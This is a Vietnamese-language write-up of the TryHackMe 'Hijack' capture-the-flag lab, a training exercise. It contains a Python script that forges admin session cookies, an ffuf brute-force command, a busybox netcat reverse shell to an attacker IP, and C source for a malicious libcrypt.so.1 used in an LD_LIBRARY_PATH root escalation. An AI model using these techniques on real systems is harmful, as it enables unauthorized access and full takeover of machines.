# [THM] Hijack write-up
## Recon

Sử dụng nmap để dò quét các cổng và dịch vụ đang mở
> nmap -p- -T5 --max-retries=1 --min-rate=1000 10.10.107.222

> nmap -p21,22,80,111,2049,35601,44777,46395,58545 -sV -sC -T4 10.10.107.222

<p align="center">
    
</p>

Các port dịch vụ đang mở bao gồm
- Port 21 chạy dịch vụ FTP
- Port 22 chạy dịch vụ SSH
- Port 80 chạy dịch vụ HTTP
- Port 111 chạy dịch vụ Portmapper (RPCBind)
- Port 2049 chạy dịch vụ NFS
- Các port còn lại là các port tạm thời đều liên quan tới port dịch vụ 111 bên trên

Giao diện trang web khi truy cập port 80


Trên trang web phát hiện ra một số đường dẫn cũng như sử dụng ffuf để scan thư mục ẩn thì ta thu được một số kết quả như bên dưới
<p align="center">
    
</p>

Truy cập một số đường đẫn trên ta không có được thông tin gì hữu ích, tại /adminstration.php thì bị từ chối quyền truy cập (*Access denied, only the admin can access this page.*). Tôi nghĩ ta cần tìm cách truy cập được vào đây để lấy được thông tin hữu ích

Ta quay lại với các port khác như port 21 FTP thử với tài khoản **Anonymous** nhưng không thể truy cập. Tiếp theo tới port 111, sau một hồi tìm kiếm thông tin thì thấy RFCBind và NFS có thể kết hợp để khai thác. Tham khảo tại [HackTricks - 111/TCP/UDP - Pentesting Portmapper](https://hacktricks.boitatech.com.br/pentesting/pentesting-rpcbind#rpcbind--nfs) và [HackTricks - 2049 - Pentesting NFS Service](https://hacktricks.boitatech.com.br/pentesting/nfs-service-pentesting)

<p align="center">
    
</p>

Kiểm tra và nhận thấy hijack.thm đang chia sẻ thư mục **/mnt/share** cho tất cả mọi người ta tạo thư mục và mount thư mục được chia sẻ vào nhưng chưa thể truy cập vì nó được yêu cầu với quyền user id 1003. Tiến hành tạo tài khoản với user id đó và truy cập 

<p align="center">
    
</p>

Sau khi đã truy cập được vào thư mục đó ta đã có được FTP user. Truy cập FTP đã có được thông tin hữu ích

<p align="center">
    
</p>

Đã có file tài khoản nhưng ta thấy note đã limit số lần đăng nhập vậy ta không thể bruteforce theo cách thông thường. Kiểm tra thử tạo tài khoản và đăng nhập thì nhận ra có chuỗi session 

<p align="center">
    
</p>

Thử decode base64 chuỗi session đó và đã nhận được kết quả là **username:hash**
<p align="center">
    
</p>

Kiểm tra đoạn hash phía sau và xác định dược nó là MD5
<p align="center">
    
</p>

Để chắc chắn hơn ta thử hash lại mật khẩu và kết quả không nằm ngoài dự đoán
<p align="center">
    
</p>

## Exploit

Vậy ta đã xác định được sau khi đăng nhập thì session sẽ được sinh ra theo format **base64(username):hash-MD5(password)**. Để xác định được session của admin ta cần thực hiện chuyển đổi dạng password -> xử lý tạo ra chuỗi session và cuối cùng là sẽ sử dụng ffuf để gửi request

#### Tạo chuỗi session
Để thực hiện tạo session ta sẽ viết đoạn script python để xử lý
```python
import hashlib
import base64

input_file = '.passwords_list.txt'
output_file = 'session.txt'

try:
        with open(input_file, 'r') as infile, open(output_file, 'w') as outfile:
                for line in infile:
                        clean_line = line.strip()

                        md5_hash = hashlib.md5(clean_line.encode('utf-8')).hexdigest()

                        combined_string = f"admin:{md5_hash}"

                        base64_encoded = base64.b64encode(combined_string.encode('utf-8')).decode('utf-8')

                        outfile.write(base64_encoded + '\n')

        print(f" Success check '{output_file}'.")

except FileNotFoundError:
    print(f"ERROR: file name doesn't exists '{input_file}'")
except Exception as e:
    print(f"ERROR: {e}")
```

Chạy đoạn code trên và đã nhận được kết quả session file

<p align="center">
    
</p>

#### Gửi request
Ở bước này sẽ sử dụng ffuf để gửi request với payload là session file để xác định được kết quả session của admin

> ffuf -u http://hijack.thm/administration.php -w session.txt -X POST -b 'PHPSESSID=FUZZ' -fw 9

Đã xác định được session của admin
<p align="center">
    
</p>

Khi thay giá trị session và reload ta đã vào được dashboard với quyền admin với quyền trên ta cũng có thể truy cập vào đường dẫn **/administration.php**
<p align="center">
    
</p>

Với kết quả như dưới thì ta có thể tận dụng được execute command để chèn revershell và truy cập vào shell của www-data

<p align="center">
    
</p>

### www-data shell

Sử dụng [revshell](https://www.revshells.com/) để thực hiện tạo reverse shell thử một số loại shell như bash thì không thấy hoạt động tuy nhiên nó đã hoạt động với busybox `busybox nc 10.21.113.26 1234 -e /bin/sh`

<p align="center">
    
</p>

### Rick shell

<p align="center">
    
</p>

Với thông tin trên ta tiến hành thử ssh vào tài khoản rick

Đã truy cập và lấy được user flag

<p align="center">
    
</p>

### Escalation privilege
Kiểm tra user rick có quyền chạy root với chức năng nào không với câu lệnh `sudo -l`

<p align="center">
    
</p>

Ta có thể chạy /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2 với tư cách root, ta không thể làm được nhiều với quyền đó, nhưng chúng ta nhận thấy điều này trong đầu ra của lệnh `sudo -l`: `env_keep+=LD_LIBRARY_PATH` cấu hình sudo này cho phép giữ lại (preserve) biến môi trường `LD_LIBRARY_PATH` của mình khi chạy lệnh với sudo 
- LD_LIBRARY_PATH là một biến môi trường chỉ định cho hệ thống các thư mục cần tìm kiếm file thư viện dùng chung (.so - shared object) trước tiên, trước cả các thư mục hệ thống mặc định

Khi apache2 khởi động, nó sẽ nạp (load) rất nhiều file thư viện .so (được gọi là các module). Bằng cách kiểm soát `LD_LIBRARY_PATH`, ta có thể "đánh lừa" apache2 (đang chạy với quyền root) nạp một file .so độc hại do ta tạo ra, thay vì file thư viện hợp lệ của hệ thống. Đoạn mã trong file .so độc hại đó sẽ được thực thi với quyền root

Ta cần tạo payload có thể tham khảo [HackTricks](https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/index.html#ld_preload--ld_library_path)

```c
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```

Tiếp theo chạy lệnh sau để biên dịch file shell.c thành một file thư viện có tên libcrypt.so.1. Ta chọn tên này vì nó là một thư viện phổ biến mà nhiều chương trình sử dụng.

> gcc -shared -fPIC -o /tmp/libcrypt.so.1 shell.c

*Lưu ý: ta lưu file vào thư mục /tmp vì đây là nơi mọi người dùng thường có quyền ghi*


Cuối cùng chạy câu lệnh `sudo LD_LIBRARY_PATH=/tmp /usr/sbin/apache2 -f /etc/apache2/apache2.conf -d /etc/apache2`. Ngay lập tức, apache2 (chạy với quyền root) sẽ tìm libcrypt.so.1 trong /tmp trước, nạp file độc hại và thực thi đoạn mã trong đó. Kết quả là sẽ có ngay shell với quyền root.

<p align="center">
    
</p>

# DONE

<p align="center">
    
</p>